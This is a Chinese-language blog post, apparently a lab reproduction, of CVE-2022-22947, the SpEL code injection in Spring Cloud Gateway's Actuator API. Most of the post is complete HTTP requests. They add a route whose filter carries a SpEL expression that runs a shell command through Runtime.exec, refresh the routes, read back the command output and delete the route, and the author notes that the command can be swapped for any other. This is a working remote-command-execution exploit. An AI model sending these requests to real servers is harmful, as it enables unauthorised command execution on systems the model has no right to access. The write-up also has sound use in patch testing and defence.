



# Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947) - CHOSEN1K08 - 博客园

> 原文：[`www.cnblogs.com/CHOSEN1-Z13/p/15972417.html`](https://www.cnblogs.com/CHOSEN1-Z13/p/15972417.html)

## 简介

Spring Cloud Gateway 是 Spring 中的一个 API 网关。其 3.1.0 及 3.0.6 版本（包含）以前存在一处 SpEL 表达式注入漏洞，当攻击者可以访问 Actuator API 的情况下，将可以利用该漏洞执行任意命令。

**影响范围：**
Spring Cloud Gateway 3.1.x < 3.1.1
Spring Cloud Gateway < 3.0.7

## 搭建环境

我直接使用 vulfocus 里面的环境
[`vulfocus.io/#/dashboard`](http://vulfocus.io/#/dashboard)


## 漏洞原理

因为本人的代码水平有限 我就不关公面前耍大刀了，这是这位大师傅写的。
[`y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/`](https://y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/)

## 漏洞复现

打开环境


### 1.首先，发送如下数据包即可添加一个包含恶意 SpEL 表达式的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
} 
```


如果想要更改执行的命令 只需要更改 id 这里


### 2.发送数据包将触发 SpEL 表达式的执行：

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```



### 3.发送数据包即可查看执行结果

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```


### 4.送如下数据包清理现场，删除所添加的路由

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close 
```

刷新一下路由

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0 
```

**借鉴**：
[`github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.zh-cn.md`](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2022-22947/README.zh-cn.md)